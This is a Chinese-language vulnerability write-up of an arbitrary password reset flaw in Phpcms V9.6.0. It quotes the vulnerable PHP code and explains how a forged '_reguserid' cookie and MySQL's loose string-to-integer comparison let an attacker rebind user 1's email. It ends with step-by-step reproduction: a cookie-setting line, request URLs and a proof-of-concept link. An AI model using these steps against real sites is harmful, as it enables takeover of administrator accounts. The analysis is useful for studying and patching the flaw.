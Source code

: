 Phpcms V9.6.0 任意密码重置漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.0

三、复现过程
------------

### 漏洞分析

`/phpcms/modules/member/index.php` 第267到312行

    public function send_newmail() {
        $_username = param::get_cookie('_regusername');
        $_userid = param::get_cookie('_reguserid');
        $_ssouid = param::get_cookie('_reguseruid');
        $newemail = $_GET['newemail'];
     
        if($newemail==''){//邮箱为空，直接返回错误
            return '2';
        }
        $this->_init_phpsso();
        $status = $this->client->ps_checkemail($newemail);
        if($status=='-5'){//邮箱被占用
            exit('-1');
        }
        if ($status==-1) {
            $status = $this->client->ps_get_member_info($newemail, 3);
            if($status) {
                $status = unserialize($status); //接口返回序列化，进行判断
                if (!isset($status['uid']) || $status['uid'] != intval($_ssouid)) {
                    exit('-1');
                }
            } else {
                exit('-1');
            }
        }
        //验证邮箱格式
        pc_base::load_sys_func('mail');
        $code = sys_auth($_userid.'|'.microtime(true), 'ENCODE', get_auth_key('email'));
        $url = APP_PATH."index.php?m=member&c=index&a=register&code=$code&verify=1";
     
        //读取配置获取验证信息
        $member_setting = getcache('member_setting');
        $message = $member_setting['registerverifymessage'];
        $message = str_replace(array('{click}','{url}','{username}','{email}','{password}'), array('<a href="'.$url.'">'.L('please_click').'</a>',$url,$_username,$newemail,$password), $message);
     
        if(sendmail($newemail, L('reg_verify_email'), $message)){
            //更新新的邮箱，用来验证
            $this->db->update(array('email'=>$newemail), array('userid'=>$_userid));
            $this->client->ps_member_edit($_username, $newemail, '', '', $_ssouid);
            $return = '1';
        }else{
            $return = '2';
        }
        echo $return;
    }

　　`$_userid`用 `param::get_cookie('_reguserid')` 来获取

跟进去：`/phpv9.6.0/phpcms/libs/classes/param.class.php` 第106-117行。

    public static function get_cookie($var, $default = '') {
        $var = pc_base::load_config('system','cookie_pre').$var;
        $value = isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default;
        if(in_array($var,array('_userid','userid','siteid','_groupid','_roleid'))) {
            $value = intval($value);
        } elseif(in_array($var,array('_username','username','_nickname','admin_username','sys_lang'))) { //  site_model auth
            $value = safe_replace($value);
        }
        return $value;
    }

　　这时候的\$var的值是\_reguserid，
然后获取前缀。`pc_base::load_config('system','cookie_pre')`

　　\$var的值就变成了gggCB\_\_reguserid，然后进到`sys_auth($_COOKIE[$var], 'DECODE')`,由于这个值我们是可控的，那找个可控的地方加密一下，也就是注册的时候，把名字注册成1xxxx(为什么是这样的后面会说)
，然后他会对username进行加密，我们只要注册一个号，然后复制出里面username的值就行。

接着有个if判断，这就是我说文章分析错的地方，这里的\$var的值是gggCB\_\_reguserid，根本不在后面的这个数组里面，所以进入不到\$value
= intval(\$value);

所以不能intval出数字来，所以文章分析错了，但是还是能密码重置。接着看，返回了\$value的值，也就是1xxxx。

省略中间的运行：来到304行，看这句

`$this->db->update(array('email'=>$newemail), array('userid'=>$_userid));`

进行update操作，\$newemail的值是我们给的，\$\_userid是 1xxxx 。

跟进去形成sql修改。语句是这样的。

    UPDATE `phpcms`.`v9_member` SET `email`='aa223d@qq.com' WHERE `userid` = '1xxxx'

然后在mysql中，where 1 = \'1sFdsfdsf\'
是相等的，因为后面的字符串转为了数组1

![1.png](./.resource/PhpcmsV9.6.0任意密码重置漏洞/media/rId25.png)

所以他的语句就变成了

    UPDATE `phpcms`.`v9_member` SET `email`='aa223d@qq.com' WHERE `userid` = '1'

然后重置掉了用户userid为1 的用户

2.png

### 漏洞复现

大概的攻击流程是这样的。

注册一个1xxx
，然后获取cookie中的username的值，然后切换一个浏览器，再次打开网页，在f12中，设置cookie的值，注意\_\_reguserid前面的gggCB也要和username的值一样

`document.cookie='gggCB__reguserid=2f22C0FxoGesxWq73GqUXpuJBDAAEO_KZL5MuEDDeaEj9w'`

然后访问
`/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=q123456@qq.com`

看到页面返回1就代表成功了，然后就去

`/index.php?m=member&c=index&a=public_forget_password&siteid=1`

输入你的邮箱 重置掉userid=1的密码。

最终poc为

    https://www.0-sec.org/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=aa222a@qq.com

参考链接
--------

> https://www.cnblogs.com/yangxiaodi/p/6890298.html
